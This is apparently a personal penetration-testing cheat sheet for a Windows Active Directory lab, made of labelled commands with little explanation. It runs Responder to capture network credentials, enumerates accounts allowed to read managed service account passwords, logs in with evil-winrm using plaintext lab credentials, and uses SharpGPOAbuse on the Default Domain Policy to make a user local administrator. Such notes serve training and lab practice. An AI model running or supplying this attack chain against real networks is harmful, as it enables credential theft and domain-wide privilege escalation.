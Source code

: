 command for responder:

```
responder -I tun0 -wv
```
Powershell commands:

Download files from a url
```
Invoke-WebRequest -Uri <ip address> -Outfile <filename>
```
Checks to see who has gmsa permissions on an AD:
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```

known manual start permissions on windows:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
look for services that start manually
```
Get-Service | findstr -i "manual"
```

Check if user is in an admin group:

```
Get-ADGroupMember 'Web Admins'
```

What groups have permission to acheive a users password:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```
Winrm command to give access to our folder to run files:
```
evil-winrm -i 192.168.120.116 -u anirudh -p "SecureHM" -s .

```
Lists GPOs after using PowerView.ps1
```
 Get-NetGPO
```

Check GPO permissions
```
Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9 -TargetType User -TargetName anirudh
```
Runs SharpGPOAbuse.exe to gain permissions:
```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

updates gp policy:
```
gpupdate /force
```
Shows administrator group:
```
net localgroup Administrators
```

